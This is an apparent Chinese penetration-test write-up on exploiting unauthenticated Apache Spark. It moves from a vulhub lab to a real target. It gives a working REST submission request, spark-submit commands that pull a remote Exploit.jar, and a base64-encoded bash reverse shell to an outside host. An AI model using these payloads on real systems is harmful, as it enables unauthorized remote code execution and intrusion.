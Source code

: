 ### 坑点总结
1、搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名  
1、Exploit.jar链接不能是github，会获取不到  
2、反弹shell需要base64编码  
3、base64编码后需要修改Exploit.jar  

### 0x01 打点起源
团队一起做项目，同事发现一个Apache Spark未授权页面，尝试打点，故有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，直接打失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)能够成功访问，环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先对本地测试针对6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
获得响应如下  
![image](./pic/3.png)  
然后访问
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
替换其中的driverId，成功获得执行结果，如下图  
![image](./pic/4.png)  
这里有一个细节需要注意："id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"，id_部分，我这里更改了Exploit.jar，由,分割变为_分割，用于后面反弹shell  

通过端口7077执行命令  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
还是上述查看方式，成功执行命令  

通过端口7077反弹shell  
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```
其中的
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
为
bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1
经过如下网站编码
http://www.jackson-t.ca/runtime-exec-payloads.html
```
执行后成功反弹shell  
![image](./pic/5.png)  

拿到目标测试后，成功拿到shell

参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  

